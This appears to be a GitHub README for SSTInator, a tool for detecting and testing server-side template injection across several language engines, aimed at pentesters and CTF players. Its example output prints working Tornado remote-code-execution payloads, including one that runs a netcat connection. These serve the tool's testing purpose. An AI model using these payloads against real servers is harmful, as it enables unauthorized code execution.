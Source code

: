 # 🧪 SSTInator — Universal SSTI Guesser & Detector

**SSTInator** is a high-performance, multi-language Server-Side Template Injection (SSTI) testing playground and engine discriminator.  
Built for red teamers, CTFer, researchers, and pentesters, it allows you to test templates against dozens of engines across languages in a unified way.

---

## 🚀 Features

- ✅ Supports multiple languages: `Python`, `Node.js`, `PHP`, `Ruby`, `Java`, `Go` ( not yet )
- 🔍 Automatic engine discrimination via payload analysis
- 🔓 Built-in exploitation PoCs for vulnerable engines
- 🧩 Easy to extend with new languages or engines
- 🖥️ Interactive CLI with history & autocomplete
- 📦 No Docker needed (but compatible)
- 🛠️ Fast, modular architecture with persistent background workers per language

---

## 📦 Installation

### 💡 Prerequisites

Make sure you have the following installed globally:

- Python 3.8+
- Node.js (with `npm`)
- PHP (with `composer`)
- Ruby (with `bundler`)
- Java (JDK + `maven`)
- Go (>= 1.20) ( soon :) )

---

### 🛠️ Install

```
git clone https://github.com/yourname/SSTInator.git
cd SSTInator
chmod +x install.sh
./install.sh
```

The installer sets up each language’s dependencies and prepares the playground.

---

## 🧪 Usage

### 🔁 Launch all tests

```
python3 main.py
```

### 📜 You know the langague ? 

```
python3 main.py -l ruby,python
```

### 🧠 Ask SSTInator the template engine !!

```
python3 main.py -l ruby -g
```

### 📜 List all available engines

```
python3 main.py --list-engines
```

---

## 🧰 Examples

```
Starting engine discrimination (case sensitive)


🔍 Discriminator payload: {{7*'7'}}

> 7777777

🔍 Discriminator payload: {%for i in [1,2,3]%}{{i}}{%end%}

> 123

✅ After discrimination: tornado


🔓 Available exploits:

- tornado:
    • rce → {{__import__('os').popen('id').read()}}
    • blind_rce → {% import os %}{{os.system('nc localhost 4444')}}
```

---

## ✨ Adding New Engines

To add new template engines:

1. Edit the relevant `engines/<lang>/engines.*` file 
2. Register a new function: `engine_name → function(template: str) → str`
3. Restart the playground

---

## ⚠️ Legal Notice

This tool is for **educational and authorized testing only**.  
Never use it against systems without **explicit permission**.

---

## 📄 License

MIT © ToG
